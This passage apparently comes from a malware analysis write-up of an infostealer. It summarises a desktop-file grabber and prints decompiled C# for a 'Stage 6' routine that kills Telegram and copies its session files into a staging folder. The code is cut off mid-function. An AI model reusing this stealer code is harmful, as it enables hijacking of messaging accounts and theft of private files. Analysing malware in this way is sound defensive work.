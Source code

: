 `GrabberDesktop` function:

- Creates a target directory at `Variables.workdir\Grabbers\DesktopFiles` if it doesn't exist.
- Scans all files located on the user’s desktop (`Variables.desktop`).
- Filters and selects files that have `.pdf`, `.txt`, `.sql`, `.jpg`, or `.png` extensions.
- Increments `Variables.foundFilesFromDesktop` for each matching file found.
- Extracts filenames (without path) into a second list to prepare for copying.
- Before copying, checks if a file with the same name already exists at the destination:
    - If it does, deletes the existing file to prevent overwriting issues.
- Copies each selected file from the desktop to the `DesktopFiles` directory.
- Silently handles any exceptions via a `try-catch` block — no error reporting or logging.

# Stage 6: Grabber Telegram sesssion

```csharp
using System;
using System.Diagnostics;
using System.IO;
using Main;

namespace Messengers
{
	// Token: 0x02000005 RID: 5
	public class Telegram
	{
		// Token: 0x0600000D RID: 13 RVA: 0x00002864 File Offset: 0x00000A64
		public static void GrabberTelegramSession()
		{
			string text = Telegram.SearchPathTelegram();
			try
			{
				Telegram.TelegramProcessKill(ref text);
				bool flag = text == "Not Found!";
				if (!flag)
				{
					Variables.telegramSessionFound = "Found! Success";
					Directory.CreateDirectory(Variables.workdir + "\\Grabbers\\TelegramSession");
					string text2 = Variables.workdir + "\\Grabbers\\TelegramSession";
					string text3 = text;
					foreach (string text4 in Directory.GetFiles(text3))
					{
						bool flag2 = File.Exists(text2 + "\\" + Path.GetFileName(text4));
						if (flag2)
						{
							File.Delete(text2 + "\\" + Path.GetFileName(text4));
						}
						File.Copy(text4, text2 + "\\" + Path.GetFileName(text4));
					}
					foreach (string text5 in Directory.GetDirectories(text3))
					{
						string text6 = text2 + "\\" + text5.Split(new char[] { '\\' })[text5.Split(new char[] { '\\' }).Length - 1];
						Directory.CreateDirectory(text6);
						foreach (string text7 in Directory.GetFiles(text5))
						{
							bool flag3 = File.Exists(text6 + "\\" + Path.GetFileName(text7));
							if (flag3)
							{
								File.Delete(text6 + "\\" + Path.GetFileName(text7));
							}
							File.Copy(text7, text6 + "\\" + Path.GetFileName(text7));
						}
					}
```